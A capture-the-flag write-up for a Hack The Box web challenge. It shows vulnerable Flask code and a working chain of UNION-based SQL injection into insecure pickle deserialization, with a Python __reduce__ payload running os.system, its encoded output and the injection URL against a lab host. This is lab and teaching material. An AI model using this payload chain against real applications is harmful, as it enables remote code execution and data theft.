





# C.O.P

### ===== Challenge =====

- The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

### ===== Analysis =====

- I am presented with this page:



- As always, I look in the source code to find where `flag` is mentioned and there's only the file `flag.txt`, which is never included anywhere. This means I have to get either **RCE or File Read**.

- This is how the application renders each item's page:

    - Api Call:

        ```python
        @web.route('/view/<product_id>')
        def product_details(product_id):
            return render_template('item.html', product=shop.select_by_id(product_id))
        ```
    - Get item from DB (**SQL Injectable**)

        ```python
        class shop(object):
            @staticmethod
            def select_by_id(product_id):
                return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
        ```
    - Render the template using **jinja**, showing the `product` and applying the `pickle` filter
        
        ```html
        section class="py-5">
                    <div class="container px-4 px-lg-5 my-5">
                        <div class="row gx-4 gx-lg-5 align-items-center">
                             <-- pickle filter being used
                            <div class="col-md-6"></div>
                            <div class="col-md-6">
                                <h1 class="display-5 fw-bolder">{{ item.name }}</h1>
        ```
    - `pickle` filter, **insecure deserialization** of the base64'd and serialized `product` that comes from the DB
       
        ```python
        @app.template_filter('pickle')
        def pickle_loads(s):
            return pickle.loads(base64.b64decode(s))
        ```

- If we are able to control the `product` we might be able to exploit the **insecure deserialization** and potentially get RCE!

- It was obvious I would need to use the SQL Injection to control the `product`. I tried INSERTing a new `Item`, but query stacking was disabled. I added debug print()'s to see if I would be able to control it, and using the payload `' UNION SELECT 'myvalue' --` I'm able to control it!



- It throws an error because `myvalue` isn't a base64'd serialized Python object

- Now I just need to send a malicious serialized object that will give me RCE. Inspired by (https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd) I create this payload:

```python
import pickle
import base64

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,("ls",))

print(base64.b64encode(pickle.dumps(PickleRce())))
```



### ===== Exploitation =====

- Now I only need to `cat flag.txt`!



- It doesn't reflect it on the page... I tried sending the contents of the file in a request to my server but it also didn't work

- Ultimately I noticed I could just `cp flag.txt` to the `/static/images` folder and then access it that way

```python
import pickle
import base64

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,("cp flag.txt application/static/images/flag.txt",))

print(base64.b64encode(pickle.dumps(PickleRce())))
-----
Output> gASVSQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjC5jcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvaW1hZ2VzL2ZsYWcudHh0lIWUUpQu
```
- SQL Injection: 
    - `http://83.136.248.107:36336/view/'%20UNION%20SELECT%20'gASVSQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjC5jcCBmbGFnLnR4dCBhcHBsaWNhdGlvbi9zdGF0aWMvaW1hZ2VzL2ZsYWcudHh0lIWUUpQu'--`

- Then visiting the file:



- **Flag: HTB{n0_m0re_p1ckl3_pr0paganda_4u}**


writeup by *varanda* - 18/12/2025
